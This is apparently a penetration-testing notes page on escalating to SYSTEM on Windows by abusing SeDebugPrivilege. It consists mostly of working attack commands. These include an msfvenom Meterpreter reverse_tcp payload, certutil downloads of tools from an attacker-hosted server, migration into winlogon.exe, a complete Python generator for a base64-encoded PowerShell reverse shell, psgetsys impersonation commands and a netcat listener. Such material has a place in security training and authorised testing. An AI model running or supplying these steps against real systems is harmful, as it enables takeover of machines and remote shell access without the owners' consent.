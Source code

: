 ```yaml
---
legal-banner: true
---
```


### **Introduction**

A 2008 blog post on *devblogs.microsoft.com* titled *“If you grant somebody SeDebugPrivilege, you gave away the farm”* highlights the risk of this privilege, A user with `SeDebugPrivilege` can debug **any process**, including those running as SYSTEM. This allows code injection into privileged processes, effectively granting full control over the system.

### **Exploiting SeDebugPrivilege via Meterpreter migrate**

1.  Generate a payload with `msfvenom`:  
    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[IP-ADDRESS] LPORT=9001 -f exe -o rev.exe`  
    
    ![](../../../img/Windows-Environment/135.png)

    **Note:** Host the payload using Python: `python -m http.server 80`
    
2.  Transfer the binary to the target using `certutil`:  
    `certutil -urlcache -f http://[IP-ADDRESS]:80/rev.exe rev.exe`  
    
    ![](../../../img/Windows-Environment/136.png)
    
3.  Set up a Metasploit handler:  
    `msfconsole -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 9001; run"`  
    
    ![](../../../img/Windows-Environment/137.png)
    
4.  Execute the payload on the target:  
    `.\rev.exe`  
    
    ![](../../../img/Windows-Environment/138.png)
    
5.  Identify a SYSTEM process (e.g., `winlogon.exe`):  
    `ps winlogon`  
    
    ![](../../../img/Windows-Environment/139.png)

    **Note:** Record the PID of `winlogon.exe`.
    
6.  Migrate to the SYSTEM process and open a shell:  
    ```
    migrate [PID]
    shell
    ```  
    
    ![](../../../img/Windows-Environment/140.png)

### **Exploiting SeDebugPrivilege via psgetsys.ps1**

1.  Download `psgetsys.ps1`:  
    `wget https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1`  
    
    ![](../../../img/Windows-Environment/141.png)

    **Note:** Host the script using Python: `python -m http.server 80`
    
2.  Transfer and import the script on the target:  
    `certutil -urlcache -f http://[IP-ADDRESS]:80/psgetsys.ps1 psgetsys.ps1`  
    
    ![](../../../img/Windows-Environment/142.png)

    Then import it:  
    `Import-Module .\psgetsys.ps1`
    
3.  Identify a SYSTEM process (e.g., `winlogon.exe`):  
    `(Get-WmiObject Win32_Process -Filter "Name='winlogon.exe'").ProcessId`
    
4.  Generate a Base64-encoded PowerShell reverse shell using the following Python script:

    ```python
    #!/usr/bin/env python3
    import sys, base64

    def help():
        print("USAGE: %s IP PORT" % sys.argv[0])
        print("Returns reverse shell PowerShell base64 payload for IP:PORT")
        exit()

    try:
        (ip, port) = (sys.argv[1], int(sys.argv[2]))
    except:
        help()

    payload = ('$client = New-Object System.Net.Sockets.TCPClient("%s",%d);'
               '$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};'
               'while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;'
               '$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);'
               '$sendback = (iex $data 2>&1 | Out-String );'
               '$sendback2 = $sendback + "PS " + (pwd).Path + "> ";'
               '$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);'
               '$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()')
    payload = payload % (ip, port)

    cmdline = "powershell -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
    print(cmdline)
    ```
    
5.  Run the script to generate the payload:  
    `python3 revshell.py 10.11.92.52 9002`  
    
    ![](../../../img/Windows-Environment/143.png)
    
6.  Impersonate and execute a command with SYSTEM privileges:  
    ```
    ImpersonateFromParentPid -ppid 548 -command "c:\windows\system32\cmd.exe" -cmdargs "/c powershell -e [BASE64-ENCODED-COMMAND]"
    ```
    
7.  If you encounter **Error 122: ERROR_INSUFFICIENT_BUFFER**, the payload is too long. Use shorter commands or split the payload. For example:  
    ```
    ImpersonateFromParentPid -ppid 548 -command "c:\windows\system32\cmd.exe" -cmdargs "/c ping [IP-ADDRESS]"
    ```
    
8.  Run `psgetsys.ps1` again with the proper payload to gain SYSTEM:  
    ```
    ImpersonateFromParentPid -ppid 548 -command "c:\windows\system32\cmd.exe" -cmdargs "/c powershell -e [BASE64-ENCODED-COMMAND]"
    ```
    
9.  Set up a Netcat listener to catch the shell:  
    `rlwrap -cAr nc -lnvp 9002`